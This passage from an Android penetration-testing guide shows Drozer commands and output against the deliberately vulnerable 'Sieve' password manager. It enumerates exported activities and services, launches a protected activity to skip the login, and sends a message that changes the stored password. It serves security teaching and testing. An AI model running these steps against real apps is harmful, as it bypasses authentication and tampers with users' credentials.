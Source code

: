 To list activities exported by an application, use the module `app.activity.info`. Specify the target package with `-a` or omit the option to target all apps on the device:

```
dz> run app.activity.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null  
```

Enumerating activities in the vulnerable password manager "Sieve" shows that the activity `com.mwr.example.sieve.PWList` is exported with no required permissions. It is possible to use the module `app.activity.start` to launch this activity.

```
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```

Since the activity is called directly in this example, the login form protecting the password manager would be bypassed, and the data contained within the password manager could be accessed.

##### Services

Services can be enumerated with the Drozer module `app.service.info`:

```
dz> run app.service.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null
```

To communicate with a service, you must first use static analysis to identify the required inputs.

Because this service is exported, you can use the module `app.service.send` to communicate with the service and change the password stored in the target application:

```
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg  6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD "abcdabcdabcdabcd" --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 4
  arg1: 42
  arg2: 0
  Empty
```

##### Broadcast Receivers

Broadcasts can be enumerated via the Drozer module `app.broadcast.info`. The target package should be specified via the `-a` parameter:
